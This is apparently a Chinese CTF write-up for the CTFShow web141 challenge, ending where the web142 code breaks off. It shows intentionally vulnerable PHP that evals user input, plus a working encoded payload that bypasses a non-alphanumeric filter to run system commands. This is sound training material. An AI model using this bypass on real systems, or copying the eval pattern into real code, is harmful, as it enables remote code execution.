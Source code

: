 ```
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-10-13 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-17 19:28:09

*/

#error_reporting(0);
highlight_file(__FILE__);
if(isset($_GET['v1']) && isset($_GET['v2']) && isset($_GET['v3'])){
    $v1 = (String)$_GET['v1'];
    $v2 = (String)$_GET['v2'];
    $v3 = (String)$_GET['v3'];

    if(is_numeric($v1) && is_numeric($v2)){
        if(preg_match('/^\W+$/', $v3)){
            $code =  eval("return $v1$v3$v2;");
            echo "$v1$v3$v2 = ".$code;
        }
    }
}

```

> is_numeric — 检测变量是否为数字或数字字符串 (是，true；否，false)

> \W是匹配非字母数字下划<===>[^A-Za-z0-9_]
>
> \w是匹配字母数字下划线<===>[A-Za-z0-9_]

所以这道题目是无参rce

命令执行，通过拼接构造命令

```
v1=1&v3=-(~%8c%86%8c%8b%9a%92)(~%8b%9e%9c%df%99%d5)-&v2=1
```

![image-20221006154813016](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202210061548109.png?x-oss-process=hzy)

参考

[(62条消息) CTFShow web入门123-150 (php特性(二))_lonmar~的博客-CSDN博客](https://blog.csdn.net/weixin_45551083/article/details/110574834)

# web142

```
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-10-13 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-17 19:36:02

*/

error_reporting(0);
highlight_file(__FILE__);
if(isset($_GET['v1'])){
```